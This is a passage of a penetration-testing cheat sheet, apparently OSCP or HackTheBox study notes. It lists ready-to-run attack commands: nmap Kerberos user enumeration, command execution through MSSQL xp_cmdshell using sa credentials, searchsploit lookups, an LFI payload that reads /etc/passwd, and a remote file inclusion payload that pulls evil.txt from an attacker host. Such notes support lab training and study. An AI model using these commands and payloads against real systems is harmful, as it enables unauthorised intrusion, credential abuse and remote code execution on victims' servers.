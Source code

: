 ```
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='HTB',userdb=/root/oscp/forest/users.txt 10.10.10.161
```

### Port 1433 -SQL

**Command Injection using nmap**

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.database=bankdb,ms-sql-xp-cmdshell.cmd="whoami" 10.11.1.31
```



### Telnet - 25

```
telnet $targetip 25
```

## Finding known exploits from Exploit-DB

To update to latest Exploit-DB

```
searchsploit -u 
```

To find a exploit

```
searchsploit $item
```

To copy the file to your current directory.

```
searchsploit -m $item 
```

To find item wihtout DOS attack

```
searchsploit apache 2.x | grep -v '/dos/'
```

## <mark style="color:blue;">**Local File inclusions**</mark>

Simple test if the target is vulnerable to LFI

```
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```

Simple test if you can run a local script against the target

```
http://target.com/?page=http://hackerip/evil.txt%00
```
